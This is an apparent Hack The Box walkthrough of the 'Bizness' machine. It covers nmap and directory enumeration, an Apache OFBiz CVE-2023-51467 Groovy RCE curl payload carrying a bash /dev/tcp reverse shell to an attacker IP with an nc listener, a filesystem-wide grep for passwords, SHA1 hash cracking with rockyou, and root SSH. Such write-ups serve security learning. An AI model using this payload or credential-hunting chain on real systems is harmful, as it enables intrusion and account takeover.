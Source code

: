 # 🧾 HTB: Bizness 

[Easy](Easy)

## 🔍 Enumeration

```bash
nmap -p- -T4 10.10.11.X
```

> Port [80](HTTP) was open and used for further exploitation.

---

## 🗂️ Hosts File Update

```bash
sudo nano /etc/hosts
```

Add:

```text
10.10.11.X  bizness.htb
```

---

## 🕵️ Directory Enumeration

```bash
dirsearch -u http://bizness.htb
```

> Revealed `/control/login` and other routes.

---

## 🔐 Authentication Discovery

> Manual testing in browser showed:
- `"admin"` = valid username
- gibberish usernames = `"User does not exist"`

---

## 💥 Initial Foothold - Apache OfBiz RCE (CVE-2023-51467)

### Payload (Groovy Sandbox RCE):

```bash
curl -kv -H "Host: bizness.htb:443" \
-d "groovyProgram=x=new String[3];x[0]='bash';x[1]='-c';x[2]='bash -i >& /dev/tcp/10.10.16.98/1234 0>&1;';x.execute();" \
"https://bizness.htb:443/webtools/control/ProgramExport/?requirePasswordChange=Y&PASSWORD=lobster&USERNAME=albino"
```

> `bash reverse shell` sent via vulnerable Groovy context.  
> `curl` is used since `wget` is blocked.

---

## 📞 Set Up Listener

```bash
nc -lvnp 1234
```

---

## 🧑‍💻 Gained Shell as `ofbiz`

```bash
whoami
cat /etc/passwd
ls /home
cat user.txt
```

---

## ⬆️ Privilege Escalation

### 🔎 Grep for Passwords

```bash
grep -arin -o -E '(\w+\W+){0,5}Password(\w+\W+){0,5}' /
```

> Discovered:
- `Adminuserlogindata.xml`
- `c54d0.dat` (contains salted SHA1 hash)

---

## 🔓 Crack OfBiz SHA1 Password

### Clone Cracker Tool

```bash
git clone https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker
cd Apache-OFBiz-SHA1-Cracker
```

### Use RockYou Wordlist

```bash
python3 crack.py -w /usr/share/wordlists/rockyou.txt -H <hash>
```

> Recovered password: `monkeybizness`

---

## 🔐 [SSH](SSH) as Root

```bash
ssh root@bizness.htb
```

> Used cracked password from the OfBiz hash.

---

## 🏁 Get Root Flag

```bash
cat /root/root.txt
```